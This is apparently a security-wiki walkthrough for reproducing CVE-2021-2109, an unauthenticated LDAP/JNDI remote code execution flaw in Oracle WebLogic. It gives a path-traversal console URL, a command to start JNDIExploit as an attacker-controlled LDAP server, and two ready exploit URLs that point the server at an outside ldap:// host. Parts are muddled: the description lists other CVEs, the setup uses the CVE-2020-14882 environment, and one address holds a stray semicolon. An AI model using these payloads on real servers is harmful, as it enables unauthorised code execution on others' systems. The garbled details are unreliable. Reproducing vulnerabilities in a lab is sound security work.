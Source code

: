 ```yaml
---
Title: Weblogic LDAP Remote Code Execution Vulnerability CVE-2021-2109
---
```


# Weblogic LDAP Remote Code Execution Vulnerability CVE-2021-2109

## Vulnerability Description

On January 20, 2021, Green Network Technology Monitor discovered that Oracle officially released the Critical Patch Update announcement for January 2021. A total of 329 vulnerabilities of varying degrees were fixed, including 7 serious vulnerabilities affecting WebLogic (CVE-2021-1994, CVE-2021-2047, CVE-2021-2064, CVE-2021-2108, CVE-2021-2075, CVE-2019-17195, CVE-2020-14756). Unauthenticated attackers can achieve remote code execution through this vulnerability. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WebLogic Server 10.3.6.0.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WebLogic Server 12.1.3.0.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WebLogic Server 12.2.1.3.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WebLogic Server 12.2.1.4.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WebLogic Server 14.1.1.0.0</span>

## Environment construction

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

Visit `http://xxx.xxx.xxx.xxx:7001` and it's normal

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122357513-3368f5c9-1557-48c9-965c-478ae4d5867a.png)



## Vulnerability reappears

Visit the URL `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122379832-ab7a422e-fc91-4e0a-8c74-ae1b27ee365a.png)

If this page is not authorized to access and it may have a vulnerability within the scope of impact, download the LDAP startup script required for the vulnerability attack

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122389252-7e57ec2f-7b8c-40a6-9a93-af57d117aeec.png)



Download to server to start

```shell
java -jar JNDIExploit-v1.11.jar -i xxx.xxx.xxx.xxx (服务器地址)
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122394942-2d2aefd9-5ed1-4d18-b721-f1b7c936263b.png)

Then execute the command without authorization in Weblogic

```plain
/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```


</a-alert>

<br/>

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122414874-e7efeca4-04b4-46a6-b4d7-273500602833.png)

You can use this POC when logging in to the background. If you are not authorized, use the above

```plain
/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```
